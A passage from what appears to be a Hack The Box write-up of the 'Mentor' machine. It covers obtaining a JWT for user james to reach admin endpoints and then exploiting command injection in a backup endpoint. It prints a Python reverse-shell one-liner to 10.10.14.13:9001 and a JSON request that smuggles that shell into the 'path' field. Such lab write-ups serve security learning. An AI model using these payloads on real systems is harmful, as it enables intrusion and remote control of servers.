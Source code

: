 This shows that if we can modify the Python script, it will rerun the program.

![Script Execution](/images/mentor-htb/mentor-11.png)

## Exploitation

### Getting a Valid JWT Token

First, let's get a session ID for the `james` user:

![Session ID](/images/mentor-htb/mentor-12.png)

With a valid JWT token:
```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0Bt\
ZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
```

Now we can access the admin endpoints:

![Admin Access](/images/mentor-htb/mentor-13.png)

![User List](/images/mentor-htb/mentor-14.png)

![Backup Endpoint](/images/mentor-htb/mentor-15.png)

![Command Injection](/images/mentor-htb/mentor-16.png)

### Command Injection via Backup Endpoint

The backup endpoint appears vulnerable to command injection. Let's prepare a reverse shell payload:

```bash
export RHOST="10.10.14.13";export RPORT=9001;python -c 'import sys,socket,os,pty;\
s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));\
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

For use in JSON, we need to escape it:

```bash
export RHOST=\"10.10.14.13\";export RPORT=9001;python -c 'import sys,socket,os,pty;\
s=socket.socket();s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));\
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"sh\")'
```

**Sample Request:**

```json
{
    "path":"/etc/passwd;export RHOST=\"10.10.14.13\";export RPORT=9001;\
python -c 'import sys,socket,os,pty;s=socket.socket();\
s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\"))));\
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"sh\")'"
}
```
